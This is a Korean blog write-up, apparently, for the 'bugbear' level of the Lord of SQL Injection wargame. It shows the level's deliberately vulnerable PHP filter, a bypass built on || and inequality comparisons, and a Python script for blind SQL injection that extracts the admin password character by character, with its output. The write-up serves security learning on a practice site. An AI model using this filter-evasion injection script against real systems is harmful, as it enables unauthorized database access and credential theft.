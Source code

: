 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - bugbear 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `생각 전환`의 필요성에서 살짝 느꼈던 문제였다.  

뭔가 허점을 찌르는 느낌이었다.  

`bugbear`라는 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='' and no=
---------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

필터링을 보면 뭔가 굉장히 빡세게 걸려있다.  

이 전 문제들에서 사용했던 것들이 대부분 막혀있다.  

하지만 다행인건, `&&`와 `||`은 사용할 수 있다는 것이다.  

그래도 아직 `like`과 `=`를 사용할 수 없기 때문에 비교를 할 수 없다.  

아니 정정하자면, `같은지` 비교를 할 수 없다.  

그럼 반면, 내가 입력한 값보다 `큰지 혹은 작은지`는 비교할 수 있다.  

이 때문에 나는 `부등호`를 사용해서 문제를 풀었다.  

내가 많이 고민했던 부분은 `id='admin'`을 사용할 수 없다는 점이었다.  

`admin`의 `pw`를 출력하긴 해야 하는데, `id='admin'`을 그 어떤 방법으로도 비교할 수 없어 보였다.  

그래서 `부등호를 사용해 비교할 수 있는 값`에 초점을 맞추어 다시 문제를 보았다.  

그러다 눈에 띈 것이 `no`였다.  

아마도 다른 문제들처럼, 각각의 계정에 `no` 값이 부여되어 있을 것이다.  

때문에 부등호를 이용 해 `no`를 비교한다면, `id`가 `admin`인 행을 구할 수 있지 않을까 생각했다.  

이를 확인하기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1&no=1||no<2
```

그랬더니 `Hello guest`가 출력되었다.  

이것저것 시도 해 보니, `?pw=1&no=1||no>1`을 입력하니 `Hello admin`을 얻을 수 있었다.  

일단 `id`가 `admin`인 행을 구할 수 있으니, `pw`의 길이와 값은 이 전 문제와 동일하게 `length()`와 `min()`를 사용하고, 부등호를 통해 비교하게 하면 될 것이다.  

또한 만약 `Hello admin`이 출력 된다면 그 값이 아니라 `해당 값 - 1`을 길이 혹은 pw의 일부라고 생각하면 된다.  

이를 토대로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no=0||no"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + ">1%26%26length(pw)<" + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i - 1
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + ">1%26%26mid(pw," + str(j) + ",1)<char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i - 1)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

너무 한번에 결과가 나와서 당황했는데, 다행히 제대로 된 `pw`를 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 52
[+] Found 3 : 52D
[+] Found 4 : 52DC
[+] Found 5 : 52DC3
[+] Found 6 : 52DC39
[+] Found 7 : 52DC399
[+] Found 8 : 52DC3991
[+] Found password :  52DC3991
[+] End
```

이전 문제들처럼 알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=52dc3991
```

```php
--------------------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=
--------------------------------------------------------------------------------------------------------

BUGBEAR Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

`BUGBEAR Clear!!`

